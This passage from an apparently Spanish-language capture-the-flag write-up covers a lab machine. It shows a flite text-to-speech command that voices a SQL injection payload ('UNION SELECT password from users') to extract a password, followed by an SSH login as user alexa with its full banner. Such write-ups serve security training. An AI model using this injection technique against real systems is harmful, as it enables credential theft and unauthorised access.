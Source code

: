 Ahora conseguí extraer la contraseña.

```bash
flite -w /tmp/test.wav -voice rms -t "open single quote UNION SELECT space password from users  Comment Database"
```

Deje de enumerar la base de datos y me fuí a probar si las credenciales eran validas para el ssh.

```bash
❯ ssh alexa@10.10.10.163
The authenticity of host '10.10.10.163 (10.10.10.163)' can't be established.
ECDSA key fingerprint is SHA256:ghI7byxujOo6BLzCOPFbXgVPMmJVCoRsMuPs3zBgRQM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? eys
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added '10.10.10.163' (ECDSA) to the list of known hosts.
alexa@10.10.10.163's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 5.3.7-050307-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Feb 27 07:39:02 UTC 2023

  System load:  0.08              Processes:           146
  Usage of /:   76.2% of 4.79GB   Users logged in:     0
  Memory usage: 41%               IP address for eth0: 10.10.10.163
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

63 packages can be updated.
15 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Thu Oct 24 15:04:38 2019 from 192.168.0.104
alexa@AI:~$
```

### Enumeración del sistema
